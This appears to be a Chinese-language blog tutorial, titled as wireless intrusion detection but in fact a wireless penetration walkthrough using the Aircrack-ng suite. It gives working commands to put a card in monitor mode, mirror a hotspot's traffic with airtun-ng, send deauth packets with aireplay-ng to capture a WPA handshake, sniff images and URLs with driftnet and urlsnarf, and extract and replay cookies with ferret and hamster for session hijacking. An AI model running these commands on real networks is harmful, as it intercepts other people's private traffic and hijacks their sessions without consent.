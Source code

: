 ```yaml
---
title: "wIDS无线入侵检测"
date: 2020-04-27 20:46:37
categories: 无线渗透
tags: Aircrack-ng套件
---
```


##### 一 、原理粗谈

使用 Airtun-NG 将无线热点下的所有流量镜像到一个虚拟接口下，监听此虚拟接口便可嗅探数据包，发现敏感信息。

##### 二 、创建虚拟接口

1. 开启网卡

   `ifconfig wlan0 up`

2. 开启网卡监听模式

   `airmon-ng start wlan0`

   <!--more-->

3. 创建虚拟接口

   

   ```
   airtun-ng -a B4:C4:FC:65:77:50 -p 88888888 -e test wlan0mon
   ```

   

   <img src="http://cdn.laohuan.art/Snipaste_2019-09-27_20-58-19.png">

   * -a：bssid
   * -p：wifi密码
   * -e：wifi名字

   由上图知，此时已经创建一个名叫"at0"的虚拟接口。

4. 开启此虚拟接口

   `ifconfig at0 up`

##### 三 、抓取握手包

发送deauth包让客户端断开重连，方便我们抓取到握手包

```
aireplay-ng -0 15 -a <bssid> -c <客户端mac地址> <监听模式的网卡>
```

![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-00-15.png)

当出现WPA handshake 表示已经抓取到握手包

![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-01-23.png)



##### 四、抓包嗅探

1. 此时所有流量都会被镜像到at0接口，我们对at0接口进行抓包

![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-03-33.png)

可看到此热点下的所有数据包

![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-04-28-1024x277.png)

2. 嗅探图片

   ```
   driftnet -i at0 -a -d /root/图片/
   ```

   

3. 嗅探URL

   `urlsnarf -i at0`

   ![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-17-11.png)

4. 抓取cookie

   将wireshark抓到的数据包保存后缀为pcap的格式，使用ferret解包

   ```
ferret -r test.pcap
   ```

   ![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-26-37.png)

   打开hamster，监听在本地的1234端口

   ![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-27-44.png)

   浏览器设置好代理 127.0.0.1:1234

   地址栏输入hamster
   
   ![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-30-08-1024x489.png)